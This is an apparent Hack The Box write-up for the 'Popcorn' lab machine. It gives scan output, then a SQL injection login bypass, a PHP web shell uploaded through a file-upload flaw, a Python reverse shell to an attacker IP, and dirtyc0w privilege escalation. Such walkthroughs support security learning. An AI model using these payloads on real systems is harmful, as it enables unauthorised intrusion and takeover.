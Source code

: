 # Popcorn

## Information Gathering
10.10.10.6<br>
Popcorn<br>

Software Versions
- Apache/2.2.12
- OpenSSH 5.1p1

## Enumeration
Of course start with your nmap scan:
```bash
# Nmap 7.92 scan initiated Fri Feb 25 19:12:47 2022 as: nmap -p- -A -oN nmap/all_ports.nmap 10.10.10.6
Nmap scan report for 10.10.10.6
Host is up (0.027s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 3e:c8:1b:15:21:15:50:ec:6e:63:bc:c5:6b:80:7b:38 (DSA)
|_  2048 aa:1f:79:21:b8:42:f4:8a:38:bd:b8:05:ef:1a:07:4d (RSA)
80/tcp open  http    Apache httpd 2.2.12 ((Ubuntu))
|_http-title: Site doesnt have a title (text/html).
|_http-server-header: Apache/2.2.12 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=2/25%OT=22%CT=1%CU=39829%PV=Y%DS=2%DC=T%G=Y%TM=621970A
OS:0%P=x86_64-pc-linux-gnu)SEQ(SP=C7%GCD=1%ISR=C8%TI=Z%CI=Z%II=I%TS=8)OPS(O
OS:1=M505ST11NW6%O2=M505ST11NW6%O3=M505NNT11NW6%O4=M505ST11NW6%O5=M505ST11N
OS:W6%O6=M505ST11)WIN(W1=16A0%W2=16A0%W3=16A0%W4=16A0%W5=16A0%W6=16A0)ECN(R
OS:=Y%DF=Y%T=40%W=16D0%O=M505NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%
OS:RD=0%Q=)T2(R=N)T3(R=Y%DF=Y%T=40%W=16A0%S=O%A=S+%F=AS%O=M505ST11NW6%RD=0%
OS:Q=)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%
OS:A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%
OS:DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIP
OS:L=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 199/tcp)
HOP RTT      ADDRESS
1   26.73 ms 10.10.14.1
2   26.77 ms 10.10.10.6

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Feb 25 19:13:20 2022 -- 1 IP address (1 host up) scanned in 32.85 seconds

```
I run a Gobuster scan on the webserver:
```bash
/index                (Status: 200) [Size: 177]
/index.html           (Status: 200) [Size: 177]
/test.php             (Status: 200) [Size: 47048]
/test                 (Status: 200) [Size: 47036]
/torrent              (Status: 301) [Size: 310] [--> http://10.10.10.6/torrent/]
/rename               (Status: 301) [Size: 309] [--> http://10.10.10.6/rename/]
```
I also run a Nikto scan on the webserver:
```bash
- Nikto v2.1.6/2.1.5
+ Target Host: 10.10.10.6
+ Target Port: 80
+ GET Server may leak inodes via ETags, header found with file /, inode: 43621, size: 177, mtime: Fri Mar 17 13:07:05 2017
+ GET The anti-clickjacking X-Frame-Options header is not present.
+ GET The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ GET The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ HEAD Apache/2.2.12 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ GET Uncommon header 'tcn' found, with contents: list
+ GET Apache mod_negotiation is enabled with MultiViews, which allows attackers to easily brute force file names. See http://www.wisec.it/sectou.php?id=4698ebdc59d15. The following alternatives for 'index' were found: index.html
+ GET Retrieved x-powered-by header: PHP/5.2.10-2ubuntu6.10
+ GET /test: Output from the phpinfo() function was found.
+ OSVDB-112004: GET /test: Site appears vulnerable to the 'shellshock' vulnerability (CVE-2014-6271).
+ OSVDB-112004: GET /test: Site appears vulnerable to the 'shellshock' vulnerability (CVE-2014-6278).
+ OPTIONS Allowed HTTP Methods: GET, HEAD, POST, OPTIONS 
+ GET /test.php: Output from the phpinfo() function was found.
+ GET /test/: Output from the phpinfo() function was found.
+ OSVDB-3092: GET /test/: This might be interesting...
+ GET /test/jsp/buffer1.jsp: Output from the phpinfo() function was found.
+ GET /test/jsp/buffer2.jsp: Output from the phpinfo() function was found.
+ GET /test/jsp/buffer3.jsp: Output from the phpinfo() function was found.
+ GET /test/jsp/buffer4.jsp: Output from the phpinfo() function was found.
+ GET /test/jsp/declaration/IntegerOverflow.jsp: Output from the phpinfo() function was found.
+ GET /test/jsp/extends1.jsp: Output from the phpinfo() function was found.
+ GET /test/jsp/extends2.jsp: Output from the phpinfo() function was found.
+ GET /test/jsp/Language.jsp: Output from the phpinfo() function was found.
+ GET /test/jsp/pageAutoFlush.jsp: Output from the phpinfo() function was found.
+ GET /test/jsp/pageDouble.jsp: Output from the phpinfo() function was found.
+ GET /test/jsp/pageExtends.jsp: Output from the phpinfo() function was found.
+ GET /test/jsp/pageImport2.jsp: Output from the phpinfo() function was found.
+ GET /test/jsp/pageInfo.jsp: Output from the phpinfo() function was found.
+ GET /test/jsp/pageInvalid.jsp: Output from the phpinfo() function was found.
+ GET /test/jsp/pageIsErrorPage.jsp: Output from the phpinfo() function was found.
+ GET /test/jsp/pageIsThreadSafe.jsp: Output from the phpinfo() function was found.
+ GET /test/jsp/pageSession.jsp: Output from the phpinfo() function was found.
+ GET /test/realPath.jsp: Output from the phpinfo() function was found.
+ OSVDB-3233: GET /test.php: PHP is installed, and a test script which runs phpinfo() was found. This gives a lot of system information.
+ GET /test/phpinfo.php: Output from the phpinfo() function was found.
+ OSVDB-3233: GET /test/phpinfo.php: PHP is installed, and a test script which runs phpinfo() was found. This gives a lot of system information.
+ GET /test/phpinfo.php3: Output from the phpinfo() function was found.
+ OSVDB-3233: GET /test/phpinfo.php3: PHP is installed, and a test script which runs phpinfo() was found. This gives a lot of system information.
+ GET /test/test.php: Output from the phpinfo() function was found.
+ OSVDB-3233: GET /test/test.php: PHP is installed, and a test script which runs phpinfo() was found. This gives a lot of system information.
+ GET /test/info.php: Output from the phpinfo() function was found.
+ OSVDB-3233: GET /test/info.php: PHP is installed, and a test script which runs phpinfo() was found. This gives a lot of system information.
+ GET /test/index.php: Output from the phpinfo() function was found.
+ OSVDB-3233: GET /test/index.php: PHP is installed, and a test script which runs phpinfo() was found. This gives a lot of system information.
+ GET /test/php_info.php: Output from the phpinfo() function was found.
+ OSVDB-3233: GET /test/php_info.php: PHP is installed, and a test script which runs phpinfo() was found. This gives a lot of system information.
+ OSVDB-3268: GET /icons/: Directory indexing found.
+ OSVDB-3233: GET /icons/README: Apache default file found.
+ OSVDB-3092: GET /test.php: This might be interesting...

```

## Exploitation
Navigating to /torrent gives you a page for a torrent hosting website: Torrent Hoster. There is a login portal and I try the classic <b>' OR 1=1-- - </b> in the username POST parameter and become authenticated as admin. Nice! After a bit of Googling I find that the web aplication is vulnerable to a Arbitrary File Upload vulnerability. https://www.exploit-db.com/exploits/11746<br><br>
The first step is to navigate to  http://10.10.10.6/torrenthoster//torrents.php?mode=upload. A few things need to happen to perform this file upload vulnerability. Fortunatly, there is already an image for us to abuse but if there wasn't it would be as simple to upload one. Once you have a torrent, click "Edit this Torrent". Make sure to open a Proxy to capture and modify the HTTP request. <a href="https://book.hacktricks.xyz/pentesting-web/file-upload">This</a> checklist is a good one to follow. Update some arbitrary screenshot (prefereably in an acceptable format to do less editing) and capture the request in a proxy. I make the changes and use the payload:
```php
<?php system($_GET['cmd']) ?>
```
Addding the .php extension seems to enough to bypasss the upload filter.<br><br>
After that you can serve the request by navigating to http://10.10.10.6/torrent/upload/ and selecting the file withs the .php extension. After a bit of enumerating and determing what software was on the box I used the payload
```python
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.122",9999));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```
Starting a reverse shell and serving this request should yield a reverse shell.

## Privilege Escalation
After a bit of enumeration (maybe a bit too much) I find that the server is running a very old Linux kernel. I run linux-exploit-suggester.sh to verify that this box is vulnerable to dirtyc0w.c. After downloading <a href="https://www.exploit-db.com/exploits/40839">this</a> dirtyc0w.c exploit and compiling it I pivot over to <b>firefart</b> (the root user created by dirtyc0w.c) and become root. 